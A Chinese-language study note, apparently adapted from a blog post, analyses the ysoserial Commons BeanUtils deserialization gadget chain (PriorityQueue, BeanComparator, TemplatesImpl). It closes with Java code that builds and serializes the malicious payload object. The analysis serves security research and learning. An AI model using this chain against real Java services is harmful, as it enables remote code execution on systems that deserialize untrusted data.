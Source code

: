 ```yaml
---
description: priorityQueue+BeanComparator+Java泛型的类型擦除+TemplatesImpl
---
```


# Java反序列化之Commons beanUtils

以下内容引自「大专栏」发表于 2020-03-18的「[ysoserial分析系列：一步步写Commons beanUtils利用](https://www.dazhuanlan.com/2020/03/18/5e71a8fec8f35/)」，具体内容已经是精简后的版本：

## 分析及运行环境 <a id="&#x5206;&#x6790;&#x53CA;&#x8FD0;&#x884C;&#x73AF;&#x5883;"></a>

  commons-beanutils:1.9.2，java 1.7

## TemplatesImpl <a id="TemplatesImpl"></a>

  见[JDK7u21分析](https://xiaozhicai.github.io/2020/02/20/jdk7u21/)，目的是调用getOutputProperties方法。

## BeanComparator <a id="BeanComparator"></a>

![](https://xiaozhicai.github.io//images/beanutils_field.png)

  BeanComparator实现了Comparator接口，可以实现javaBean的比较。

  成员变量 String:property指定了用于对比的字段。

### compare方法 <a id="compare&#x65B9;&#x6CD5;"></a>

![](https://xiaozhicai.github.io//images/beanutils.compare.png)

  当对javaBean进行比较时，会自动调用compare方法 ，该方法中会获得property指定的属性。

  例如javaBean中含有成员变量String:name和int：age，若在BeanComparator中指定property为age，则将按照age的取值作为javaBean比较时的依据。

  于是可知，若被比较的javaBean为恶意TemplatesImpl，且设置BeanComparator的成员变量property为outputProperties，在调用栈中会存在TemplatesImpl.getOutputProperties可以触发恶意代码。

### 部分利用链构造与调试 <a id="&#x90E8;&#x5206;&#x5229;&#x7528;&#x94FE;&#x6784;&#x9020;&#x4E0E;&#x8C03;&#x8BD5;"></a>

![](https://xiaozhicai.github.io//images/beanutils.compare_test.png)

  接下来的构造思路，就是找到反序列化时自动调用compare方法的地方

## priorityQueue <a id="priorityQueue"></a>

![](https://xiaozhicai.github.io//images/priorityqueue.png)

  PriorityQueue是一个基于优先级的队列。优先级队列的元素默认按照其自然顺序进行排序。如果构造构造队列时提供的Comparator，则根据Comparator.compare方法进行排序。

### readObject方法 <a id="readObject&#x65B9;&#x6CD5;"></a>

![](https://xiaozhicai.github.io//images/queue.readobject.png)

  该方法在依次对元素进行反序列化后，调用heapify\(\)进行排序。若使用了比较器，则调用siftDownUsingComparator函数进行排序。

### siftDownUsingComparator方法 <a id="siftDownUsingComparator&#x65B9;&#x6CD5;"></a>

![](https://xiaozhicai.github.io//images/sifdown.png)

  该方法调用Comparator.compare，对元素进行比较和排序。在构造队列时，如果使用BeanComparator，则将会调用到BeanComparator.compare。

### 利用链构造与调试 <a id="&#x5229;&#x7528;&#x94FE;&#x6784;&#x9020;&#x4E0E;&#x8C03;&#x8BD5;"></a>

  在上一个调用链的基础上，直接构造使用了BeanComparator的priorityQueue。并将恶意priorityQueue添加到队列中。

![](https://xiaozhicai.github.io//images/beanutils1.png)

  通过运行结果可以看到异常，不能执行到序列化操作。为了避免这个异常，我们需要现在队列中添加其他类型的元素，再通过反射修改为恶意TemplatesImpl。

  构造一个BeanComparator，设置成员变量property的取值为A，  
在priorityQueue中添加的元素要求：拥有名称为A的成员变量，且提供了访问A的方法（如getA）。

  ysoserial使用的中转为BigInteger，该类含有成员变量lowestSetBit，并提供了getLowestSetBit方法。因此设置BeanComparator的property属性为“lowestSetBit”，并向queue中添加BigInteger类型的元素，添加属性时就会调用BeanComparator.compare，按照lowestSetBit对BigInteger对象进行排序。

![](https://xiaozhicai.github.io//images/ysoserialbeanutils.png)

  在较高版本的jdk中，BigInteger的成员变量lowestSetBit即将废弃。为了更好地理解整个利用链，这里换一个中介，直接使用BeanComparator作为中介。

  BeanComparator含有成员变量property，且提供了公共方法setProperty和getProperty访问该变量。

  构造priorityQueue时，使用BeanComparator为比较器并设置property为“property”。在队列中添加的元素为BeanComparator类对象。然后通过反射修改priorityQueue的成员变量queue数组为存放恶意priorityQueue的数组。重新修改比较器的property取值为“outputProperties”。这样在反序列化后对元素排序时，将会调用TemplatesImpl.getOutputProperties，触发恶意代码。

![](https://xiaozhicai.github.io//images/beanutils3.png)

## 完整代码 <a id="&#x5B8C;&#x6574;&#x4EE3;&#x7801;"></a>

  构造含有恶意字节码的TemplatesImpl的代码见[JDK7u21分析](https://xiaozhicai.github.io/2020/02/20/jdk7u21/)

```java
TemplatesImpl maliciousTemplatesImpl = (TemplatesImpl) Generator.getTemplateImpl();
BeanComparator comparator = new BeanComparator("property");
//comparator.compare(maliciousTemplatesImpl, maliciousTemplatesImpl);
//使用BeanComparator为中介，ysoserial中使用的是BigInteger
PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
priorityQueue.add(new BeanComparator("test"));
priorityQueue.add(new BeanComparator("test"));
	
//重修修改BeanComparator的property属性
comparator.setProperty("outputProperties");

Object [] innerQueue = {maliciousTemplatesImpl,maliciousTemplatesImpl};
Class PriorityQueueClass = Class.forName("java.util.PriorityQueue");
Field queue = PriorityQueueClass.getDeclaredField("queue");
queue.setAccessible(true);
queue.set(priorityQueue, innerQueue);

String filename = "/beanUtils_payload.ser";
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(filename));
oos.writeObject(priorityQueue);
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
ois.readObject();
```

## 参考文献

* Java 反序列化之 CommonsBeanUtils 分析：[https://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/](https://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/)
* Java泛型的类型擦除：[https://www.cnblogs.com/joeblackzqq/p/10813143.html](https://www.cnblogs.com/joeblackzqq/p/10813143.html)
* ComparatorChain、BeanComparator用法示例\(枚举类型排序转）：[https://www.cnblogs.com/zhangmingcheng/p/5737593.html](https://www.cnblogs.com/zhangmingcheng/p/5737593.html)
* java反序列化工具ysoserial分析 – angelwhu：[http://www.vuln.cn/6295](http://www.vuln.cn/6295)
* [ysoserial分析系列：一步步写Commons beanUtils利用](https://www.dazhuanlan.com/2020/03/18/5e71a8fec8f35/)


